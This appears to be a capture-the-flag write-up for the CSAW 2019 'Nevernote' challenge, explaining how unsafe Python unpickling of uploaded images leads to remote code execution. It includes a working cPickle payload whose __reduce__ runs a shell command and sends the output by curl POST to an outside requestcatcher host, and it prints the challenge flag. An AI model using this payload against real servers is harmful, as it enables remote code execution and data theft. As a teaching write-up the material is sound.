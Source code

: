 We notice the pickle module, after reading about it on google pickle serializes and de-serializes object structures, plus there is a warning about it!

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image4.png"> <br>

*Never unpickle data received from an untrusted source*

Basically our Note object will be instantiated, and the file name will be the hash it creates + .png at the end. Then our object hits the save_note() function which saves it TWICE, once with a .pickle extension and the it saves only the image with the .png extension. Meaning our images goes through the unpickle function as is, we can have the server unpickle whatever we want! Meaning we can pickle commands and have them executed on the server.

So we need a pickled payload, that saves onto the server, then we make a get request to our .png image, that will hit the unpickle function in the code and get RCE.

I wrote an exploit that accepts a command, and makes a POST request to requestcatcher (https://requestcatcher.com/) with the the data its sending being the command!
Then it pickles the object and saves it to a .png file.


```python
import cPickle
import os
import sys

class makePayload(object):
    def __reduce__(self):
        command = "curl -X POST -d $(" + comm + ") https://saint.requestcatcher.com/nevernote"
        return (os.system, (command,))

comm = sys.argv[1]
payload = cPickle.dumps(makePayload())
badImage = open("bad.png", "w")
badImage.write(payload)
```

Let me demonstrate:

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image5.png">

bad.png has been created, Then we can start up request catcher!

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image6.png" width=400>

And now lets create a note with the bad.png

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image7.png">

Now we need to remove the .pickle it is showing us and view the .png file, this is what will execute our code!

And done! Our png just executed the `whoami` command and we got a reply of 'chal'!

<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image8.png"><br><br>

Now lets do another one with `cat /flag.txt`!!


<img src="/assets/2019-10-01-RED-CSAW19-NevernotePickle/images/image9.png"><br>


Flag: `flag{you_had_to_have_known_this_flag_would_have_pickle_rick_in_it}`